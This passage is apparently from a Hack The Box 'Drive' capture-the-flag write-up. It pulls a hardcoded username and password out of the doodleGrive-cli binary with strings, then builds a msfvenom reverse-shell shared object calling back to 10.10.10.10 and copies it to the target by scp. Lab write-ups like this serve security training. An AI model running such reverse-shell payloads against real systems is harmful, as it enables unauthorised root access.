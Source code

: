 - In the given text, the new service `doodleGrive-cli` is described as a tool to help the IT team monitor server 
status and fix errors. It's part of the upcoming `DoodleGrive self hosted` project, which will allow customers 
to deploy their own private document sharing platform on their servers. The team has sent out usernames and
passwords to users to help test the tool, with any issues to be reported back to the development team.
This suggests that the `doodleGrive-cli` service will provide server monitoring and error fixing capabilities
as part of the larger `DoodleGrive self hosted` project.

- Let’s run strings on the binary and see what going on behind the scenes.

```
strings doodleGrive-cli

please Select a valid option...
PATH
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
Enter password for 
moriarty
findMeIfY0uC@nMr.Holmz!
Welcome...!
Invalid username or password.
xeon_phi
haswell
../csu/libc-start.c
FATAL: kernel too old
__ehdr_start.e_phentsize == sizeof *GL(dl_phdr)
Unexpected reloc type in static binary.
FATAL: cannot determine kernel version
```

- We have found the username and password for the `doodeGrive-cli` and now lets exploit this service and gain 
root shell but first generate a payload to exploit this service and upload it to the drive console.

```
(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=65500 -f elf-so -o 0.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: 0.so
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# scp 0.so tom@10.10.11.235:/home/tom/
tom@10.10.11.235's password: 
0.so                              
```

--- 